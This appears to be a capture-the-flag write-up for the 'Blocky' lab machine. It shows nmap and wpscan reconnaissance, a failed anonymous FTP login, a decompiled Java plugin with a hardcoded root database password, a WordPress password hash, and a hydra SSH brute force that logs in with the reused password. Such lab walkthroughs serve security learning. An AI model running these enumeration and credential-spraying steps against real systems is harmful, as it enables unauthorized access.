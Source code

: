 PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



## FTP

No anon login
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:kali): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
530 Please login with USER and PASS
ftp: bind: Address already in use
ftp> dir
530 Please login with USER and PASS
ftp> 
221 Goodbye.


## HTTP
![](2021-02-18-17-04-17.png)


 wpscan --url http://10.10.10.37 --detection-mode aggressive --plugins-detection aggressive -f cli





[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)



![](2021-02-18-22-29-45.png)


 sudo apt install jd-gui


```java
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";


  
  public void onServerStart() {}


  
  public void onServerStop() {}


  
  public void onPlayerJoin() { sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!"); }
  
  public void sendMessage(String username, String message) {}
}
```

![](2021-02-18-22-33-46.png)


Notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/


![](2021-02-18-22-39-09.png)


hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.37
[22][ssh] host: 10.10.10.37   login: notch   password: 8YsqfCTnvxAUeduzjNSXe22



![](2021-02-18-22-51-03.png)
